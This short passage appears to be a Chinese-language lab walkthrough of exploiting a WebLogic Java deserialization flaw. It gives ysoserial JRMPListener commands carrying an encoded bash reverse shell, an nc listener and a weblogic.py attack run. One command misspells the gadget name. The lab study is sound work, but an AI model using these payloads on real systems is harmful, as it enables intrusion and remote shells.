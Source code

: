   

开启一个rmi服务

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 端口 CommonsCollections1 "要执行的指令"
```

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 8888 Commonollections1 "bash -c {echo,L2Jpbi9iYXNoIC1pID4gL2Rldi90Y3AvMTcyLjIwLjAuMS83Nzc3IDA8JjEgMj4mMQ==}|{base64,-d}|{bash,-i}"
```

这里将shell弹到了本地的7777端口，用nc监听一下

```
nc -lnvp 7777
```

发送攻击流量

```
python weblogic.py 172.20.0.2 7001 payload
```

![](weblogic漏洞练习\17.png)

同时rmi服务会接受到`172.20.0.2`的流量

![](weblogic漏洞练习\18.png)

成功getshell
